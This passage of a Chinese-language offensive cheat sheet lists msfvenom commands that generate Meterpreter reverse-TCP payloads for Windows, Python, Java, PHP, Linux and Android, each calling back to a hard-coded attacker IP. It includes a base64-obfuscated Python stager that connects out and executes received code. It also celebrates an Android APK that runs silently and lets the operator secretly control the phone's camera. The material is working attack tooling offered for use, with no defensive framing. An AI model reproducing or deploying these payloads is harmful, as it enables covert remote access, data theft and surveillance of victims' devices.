     
    
    msfvenom -p windows/meterpreter/reverse_tcp -e -i 3 LHOST=172.22.25.51 LPORT=23333 -f exe -o ~/Desktop/shell.exe
    

or

    
    
    msfvenom -p windows/x64/meterpreter_reverse_tcp -e -i 3 LHOST=172.22.25.51 LPORT=23333 -f exe -o ~/Desktop/shell.exe
    

### 生成Python reverse_tcp payload

    
    
    msfvenom -p python/meterpreter/reverse_tcp -e -i 3 LHOST=172.22.25.51  LPORT=23333
    

生成出来的Python是可以直接解码来改IP的端口的 所以可以不用浪费时间生成payload 大家自行更改IP和端口～

    
    
    import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHNvY2tldCxzdHJ1Y3QKcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQpzLmNvbm5lY3QoKCcxNzIuMjIuMjUuNTEnLDIzMzMzKSkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyhkLHsncyc6c30pCg==')))
    

### 生成java payload

    
    
    msfvenom -p java/meterpreter/reverse_tcp LHOST=10.42.0.1  LPORT=23333 -o ~/Desktop/123.jar
    

### 生成php payload

    
    
    msfvenom -p  php/meterpreter_reverse_tcp LHOST=10.42.0.1  LPORT=23333 -o ~/Desktop/123.php
    

### 生成Linux payload

    
    
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.42.0.1  LPORT=23333 -f elf -o ~/Desktop/123.elf
    

### 生成Android的payload :)

    
    
    msfvenom -p android/meterpreter/reverse_tcp LHOST=10.42.0.1  LPORT=23333 -o ~/Desktop/1234.apk
    

生成后 手机点击app无任何反应 app就默默的后台运行 干啥都行:) so cool!偷偷控制手机摄像头！

![](http://static.wooyun.org//drops/20151102/2015110211392779444.png)

## 接收

